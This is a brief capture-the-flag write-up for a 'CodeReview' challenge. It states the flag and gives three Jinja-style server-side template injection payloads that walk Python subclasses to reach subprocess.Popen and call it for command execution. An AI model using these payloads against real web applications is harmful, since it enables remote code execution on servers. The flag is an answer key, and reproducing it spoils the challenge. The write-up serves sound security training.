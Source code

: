 # Flags

CodeReview part 1 flag: IRS{ssti_w1th_m0r3_st3ps}

# Solution

step 1: {{ "<class 'subprocess.Popen'>" in "".__class__.mro()[1].__subclasses__().__str__().split(", ") }}
(good code = true, bad code = false)

step 2: {{ "".__class__.mro()[1].__subclasses__().__str__().split(", ").index("<class 'subprocess.Popen'>") }}
(you can't view this value, so have to search for it)

step 3: {{ "".__class__.mro()[1].__subclasses__()[546](...) }}
(you have won)